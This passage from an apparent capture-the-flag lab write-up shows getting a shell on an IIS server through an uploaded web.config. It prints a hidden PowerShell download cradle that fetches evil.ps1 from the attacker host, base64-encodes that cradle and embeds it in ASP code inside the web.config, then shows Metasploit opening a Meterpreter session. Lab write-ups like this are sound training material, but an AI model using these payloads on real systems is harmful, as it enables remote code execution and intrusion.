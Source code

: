 ```
powershell.exe -nop -w hidden -c $I=new-object net.webclient;$I.proxy=[Net.WebRequest]::GetSystemWebProxy();$I.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $I.downloadstring('http://10.10.15.38/evil.ps1');
```

Now I dont use this powershell command because I prefer a simpler download cradle. Let's generate the payload and encode it in base64 for powershell to execute it and avoid quote or special character issues. Note here that we have to convert it in UTF-16 little endian first:
```bash
❯❯❯ iconv -f ASCII -t UTF-16 <<< 'IEX (New-Object Net.Webclient).downloadstring("http://10.10.15.38/evil.ps1")' | base64
//5JAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBu
AHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAA
LgAxADAALgAxADUALgAzADgALwBlAHYAaQBsAC4AcABzADEAIgApAAoA
```

So now our final `web.config` file looks like:
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />  
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
set objshell=server.createobject("WScript.Shell")
objshell.run("powershell -nop -enc //5JAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADUALgAzADgALwBlAHYAaQBsAC4AcABzADEAIgApAAoA"),1,true
response.redirect("/whatever.asp")
%>
```

When uploading this and then accessing the URL <http://10.10.10.93/uploadedfiles/web.config> to trigger it, metasploit shows the web delivery running and opens a materpreter shell and we can get the flag:
```
[*] 10.10.10.93      web_delivery - Delivering Payload
[*] http://10.10.15.38:8080 handling request from 10.10.10.93; (UUID: 3cpmkvux) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 2 opened (10.10.15.38:8080 -> 10.10.10.93:49190) at 2018-07-13 09:23:54 +0200
msf exploit(multi/script/web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > cat 'C:\Users\merlin\Desktop\user.txt'
e29ad89891462e0b09741e3082f44a2f
```

